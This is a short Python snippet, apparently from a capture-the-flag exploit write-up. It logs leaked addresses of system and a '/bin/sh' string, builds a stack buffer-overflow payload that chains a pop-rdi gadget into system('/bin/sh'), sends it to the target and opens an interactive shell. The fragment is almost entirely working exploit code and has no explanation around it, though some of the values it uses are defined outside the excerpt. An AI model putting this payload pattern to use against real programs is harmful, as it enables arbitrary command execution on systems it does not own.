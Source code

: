 ```python=
info("system: %s"%hex(system))
info("binsh: %s"%hex(binsh))

pay2 = 'a'*0x28 + p64(Sum) + p64(arg3) + p64(arg2) + p64(0x183b02d47) + 'b'*0x10 + p64(0x00000000004017a9)
pay2 += pop_rdi
pay2 += p64(binsh)
pay2 += p64(system)

p.clean()
p.sendline(pay2)

p.interactive()
```

